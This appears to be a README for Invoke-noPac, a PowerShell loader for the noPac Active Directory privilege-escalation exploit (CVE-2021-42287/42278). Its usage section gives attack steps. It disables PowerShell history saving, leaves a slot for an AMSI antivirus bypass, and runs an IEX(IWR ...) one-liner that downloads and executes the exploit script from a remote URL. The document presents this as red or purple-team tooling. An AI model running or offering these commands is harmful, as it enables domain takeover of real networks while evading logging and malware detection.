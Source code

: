 # Invoke-noPac

Assembly loader for the CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter (https://github.com/cube0x0/noPac), PowerSharpPack (https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style.

Usage:

Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

IEX(IWR -UseBasicParsing -UserAgent "hi-there-purple-team" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
